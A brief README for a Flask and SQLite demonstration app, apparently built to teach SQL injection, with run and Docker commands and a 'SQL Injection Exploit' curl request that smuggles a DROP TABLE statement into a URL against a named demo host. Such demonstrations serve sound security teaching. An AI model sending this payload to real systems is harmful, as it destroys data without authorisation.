 # flask_demo
Flask w\ SQL Light Demonstration

To start website:
```sh
python3 run.py
```

Regenerate user table and date:
<http://devops.simpleltc.com:5050/users/generate/>

## Demo points
Docker commands
```sh
docker build -t flask_demo:local .
docker run --rm -p 5050:5050 --name flask_demo flask_demo:local
```

SQL Injection Exploit
```sh
curl -X PUT "http://devops.simpleltc.com:5050/users/6;DROP%20TABLE%20USERS;--?firstName=test"
```
More info about exploit can be found <https://www.pythonforengineers.com/xkcd-style-sql-injection-hack-in-python/>
